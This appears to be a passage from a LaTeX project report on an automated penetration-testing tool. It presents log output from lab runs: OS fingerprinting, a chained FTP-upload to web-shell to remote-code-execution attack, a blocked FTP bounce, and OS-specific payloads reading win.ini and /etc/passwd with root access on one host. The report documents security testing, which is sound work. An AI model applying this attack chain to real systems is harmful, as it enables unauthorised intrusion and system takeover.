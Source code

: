 Phase~3 then scores the open-port SYN/ACK. Note the honest confidence (62\%) and the full
evidence trail — TTL, window, DF, the IP-ID sequence, and the exact TCP option order:
\begin{logbox}
  Candidate  : Open-Port TCP SYN/ACK
  Likely OS  : Windows          Confidence : 62%
  Version    : Windows 10 / 11 / Server 2016+
  TTL        : 128 (initial 128, ~0 hop(s))    Window : 65535    DF bit : set
  IP ID Seq  : [27057, 27059, 27062] (deltas: [2, 3])   IP ID Class: STRICT_INCREMENTAL
  Options    : ('MSS',1460),('NOP',),('WSCALE',8),('SACK_PERMITTED',),('TIMESTAMP',...)
\end{logbox}

Phase~5's chained FTP-write$\to$web-shell$\to$RCE exploit confirms remote code execution and
cleans up after itself:
\begin{logbox}
  Status  : SUCCESS
  Detail  : RCE confirmed via uploads/shell.py (command: whoami).
    OK login  OK write_check  OK upload  OK http_access  OK rce  OK cleanup (Deleted shell.py)
  RCE output:  Host OS : Windows 11   Executed : whoami
    homed01\turjo
\end{logbox}

The FTP bounce, by contrast, is correctly \hl{detected as mitigated} rather than failing
silently — the modern Windows stack aborts the third-party pivot:
\begin{logbox}
  Status  : FAILED
  Detail  : PORT command rejected or connection aborted
            (500 [WinError 10053] ...). FTP bounce is mitigated by host firewall.
    192.168.0.116:80 -> blocked
\end{logbox}

\subsection{OS-aware exploitation across two operating systems}\label{sub:crossplat}
\texttt{cross-platform-exploit.log} runs the \emph{identical} binary against Windows and
Kali back-to-back. The engine fingerprints each host and Phase~4 swaps the payloads
automatically — the clearest proof that reconnaissance drives weaponisation. The two hosts
fingerprint distinctly (Windows 62\% strict-incremental IP-ID; Linux 66\% all-zero IP-ID),
and the same code path produces OS-correct RCE on each:
\begin{logbox}
[WIN  192.168.0.116]  fingerprint -> Windows (62%
   payload : windows\win.ini + whoami
   RCE     : homed01\turjo
[KALI 192.168.56.101] fingerprint -> Linux (66%
   payload : /etc/passwd + id
   RCE     : uid=0(root) gid=0(root) groups=0(root)
\end{logbox}

